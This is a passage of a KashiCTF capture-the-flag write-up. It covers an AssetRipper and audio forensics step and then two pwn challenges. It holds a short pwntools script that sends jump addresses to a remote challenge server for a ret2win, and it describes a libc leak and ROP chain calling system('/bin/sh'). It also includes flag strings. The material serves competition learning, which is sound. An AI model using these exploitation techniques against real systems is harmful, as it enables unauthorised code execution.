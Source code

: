 Then i use tool Assetripper and open folder **CTF_Data** 
![image](https://hackmd.io/_uploads/SJAv7lq9kx.png)

Then i see a very sus audio 
![image](https://hackmd.io/_uploads/Sy7VUg951g.png)

Download it then open it in audacity
![image](https://hackmd.io/_uploads/H1hgl-9cyx.png)
**KashiCTF{1t_Wa5_Ju5t_4_Tutori4l_RIP}**
# Pwn	

## leap_of_faith

![image](https://hackmd.io/_uploads/SylmnOFY91x.png)

![image](https://hackmd.io/_uploads/ryulNz99Je.png)
What happens if we jump to main+1 multiple times? Will rsp be decremented?
I realized that we can control rsp, but I don't know what to do with this. So, I tried brute-forcing by jumping to main multiple times, then I used ret2win.



```python3 
from pwn import * 

# p = process(b'./chall')
p = remote(b'kashictf.iitbhucybersec.in', 15806)

# gdb.attach(p)
# input()
for i in range (3):
    p.sendlineafter(b' : ', b'40125e')

# input()

p.sendlineafter(b': ', b'4011BA')

p.interactive()
```
**Flag: KashiCTF{m4r10_15_fu_w17H_C_qjHbCVGz}**

## The Troll Zone

Checksec of the challenge

![image](https://hackmd.io/_uploads/r1QGdYYqyx.png)


After brute force dump value from the stack then i found the 17th value from the stack is the address of any function in libc
![image](https://hackmd.io/_uploads/HJk5BF_q1g.png)
So we can leak libc -> rop chain and call system("/bin/sh")
